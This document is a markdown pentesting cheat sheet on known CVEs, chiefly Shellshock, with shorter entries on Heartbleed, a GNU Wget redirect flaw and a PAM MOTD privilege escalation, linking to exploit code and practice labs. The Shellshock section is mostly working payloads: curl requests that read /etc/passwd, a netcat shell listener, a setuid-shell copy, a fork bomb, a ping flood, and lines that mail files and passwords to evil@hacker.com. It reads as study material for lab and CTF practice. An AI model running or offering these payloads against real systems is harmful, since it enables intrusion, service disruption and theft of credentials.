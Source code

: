 ## Exploits

### CVE-2014-6271 - Shellshock
- `Bash 4.3` and earlier
- Execute commands from `environment variables` unintentionally.
- Caused by Bash processing trailing strings after function definitions in the values of environment variables.
- Exploitable when attacker has control of environment variables.

```
GET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)
```

#### Test if Vulnerable
```
env x='() { :;}; echo OOPS' bash -c :
env x='() { :;}; echo vulnerable' bash -c "echo not-vulnerable"
```

#### Explanation
- To run a command in a new shell
```
bash -c ls
```
- New shell inherits environment
- If new shell finds what seems to be a function in an environment variable:
  - New shell executes the function to get the actual value
  - When function is executed, evaluation didn’t stop when the end of the function definition is reached.

Hence, when new shell sees `() { :;};`, bash will start executing the function and proceed to also execute the `echo`.

#### Samples

Passwd
```
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.14/cgi-bin/status
```
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://192.168.1.14/cgi-bin/status
```
Directory Listing
```
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /' http://192.168.1.14/cgi-bin/status
```

Reverse shell
```
curl -A '() { :; }; /bin/bash -c "/usr/bin/nc -lvvp 2345 -e /bin/bash"' http://192.168.1.14/cgi-bin/status
```

Setuid shell
```
() { :; }; cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
```

Fork Bomb
```
() { :; }; :(){ :|: & };:
```

Ping Bot
```
() { :; }; ping -s 1000000 <victim IP>
```

Data Theft
```
() { :; }; find ~ -print | mail -s "Your files" evil@hacker.com
() { :; }; cat ~/.secret/passwd | mail -s "This password file" evil@hacker.com
```

#### Exploitation Vectors
> - Ref: https://github.com/opsxcq/exploit-CVE-2014-6271

##### CGI
- Bash will receive the environment variables passed by the server
- Server passes various details of the request to a handler program in the environment variable list. For example, `HTTP_USER_AGENT`.
- `exploit/multi/http/apache_mod_cgi_bash_env_exec`
- [Apache mod_cgi - 'Shellshock' Remote Command Injection](https://www.exploit-db.com/exploits/34900)

##### OpenSSH
- ForceCommand will execute a fixed command on login
- If user specify a command to run, user specific command is put into environment (`SSH_ORIGINAL_COMMAND`)
- Bash will parse `SSH_ORIGINAL_COMMAND` on start-up, and run the commands

##### DHCP clients
- Some DHCP clients can also pass commands to Bash
- Malicious DHCP server provide, a string crafted to execute code (in an addition option)

##### Qmail server
- Qmail mail server passes external input through in a way that can exploit a vulnerable version of Bash.

##### IBM HMC restricted shell

#### References
- [Shellshock: How does it actually work?](https://fedoramagazine.org/shellshock-how-does-it-actually-work/)
- [[Related Issues+] ShellShock: All you need to know about the Bash Bug vulnerability](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability)

#### Practice
- [https://pentesterlab.com/exercises/cve-2014-6271](https://pentesterlab.com/exercises/cve-2014-6271)
- [[Docker] Shellshock exploit + vulnerable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
- HTB - Shocker

### CVE-2014-7169

### CVE-2014-0160 - Heartbleed
Exploits:
- [https://github.com/sensepost/heartbleed-poc](https://github.com/sensepost/heartbleed-poc)

#### References
- https://fedoramagazine.org/update-on-cve-2014-0160-aka-heartbleed/

### CVE-2016-4971 - GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution
- issuing a crafted HTTP 30X Redirect containing FTP server reference in response
- `wget` will automatically follow the redirect
- `wget` will download a malicious file from the FTP server (to current dir)
- `wget` will fail to rename the file to the originally requested filename
- will not work with `-O`
- However, By saving `.wgetrc` in `/home/victim/.wgetrc` could set arbitrary wget settings such as destination directory

Exploits:
- [https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064)


## Privilege Escalation

### CVE-2010-0832 - Linux PAM 1.1.X MOTD File Tampering
- pam_motd (aka the MOTD module) in libpam-modules
- Before 1.1.0-2ubuntu1.1 in PAM on Ubuntu 9.10
- Before 1.1.1-2ubuntu5 in PAM on Ubuntu 10.04 LTS
- Change the ownership of arbitrary files via a symlink attack on .cache in a user's home directory.
- "user file stamps" and the `motd.legal-notice` file.

Exploits:
- [https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)
- [https://www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
- [https://twitter.com/jonoberheide/status/18009527979](https://twitter.com/jonoberheide/status/18009527979)

Practice:
- HTB - Popcorn
